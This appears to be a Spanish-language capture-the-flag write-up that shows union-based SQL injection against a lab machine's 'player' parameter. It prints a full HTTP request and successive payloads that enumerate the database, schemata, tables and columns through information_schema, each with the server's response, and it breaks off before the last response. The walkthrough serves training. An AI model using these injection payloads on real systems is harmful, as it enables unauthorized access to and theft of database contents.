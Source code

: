 Vemos que tenemos un campo vulnerable a Inyecciones SQLI, es importante destacar que0 Nos damos cuenta mediante el uso de los siguientes Payloads
```bash
POST /index.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 32
Origin: http://10.10.11.128
Connection: close
Referer: http://10.10.11.128/index.php
Cookie: PHPSESSID=g9cr58rofn03mlbo8ouiml4c07

player=admin' union select 1-- -    
```
Respuesta de la Injeccion SQL, en la que vemos que tenemos un solo campo.

```bash
Sorry, "1" you are not eligible due to already qualifying.
```
Procedemos a intentar meterle un segundo payload para enumerar la Base de Datos en la que estamos
```bash
player=admin' union select database()-- -
```

Respuesta
```bash
Sorry, "November" you are not eligible due to already qualifying.
``` 

Como solo tenemos un campo para listar contenido, procedemos a usar la expresion group-concat() 
```bash
player=admin' union select group_concat(schema_name,':') from information_schema.schemata-- -
```
Resppuesta para la enumeracion de Bases de Datos

```bash
Sorry, "mysql:, information_schema:, performance_schema:, sys:, november:" you are not eligible due to already qualifying.
```
Enumeracion de Tablas para la base de datos `November`

```bash
player=admin' union select group_concat(table_name,':') from information_schema.tables where table_schema="November"-- -
```
Resppuesta para la enumeracion de Tablas para la Base de Datos `Ǹovember`

```bash
Sorry, "flag:,players:" you are not eligible due to already qualifying.
```

Enumeracion de Columnas para la Base de Datos `November`
```bash
player=admin' union select group_concat(column_name,':') from information_schema.columns where table_schema="November" and table_name="flag"-- -
```
Respuesta para las Columnas para la Base de Datos `November`
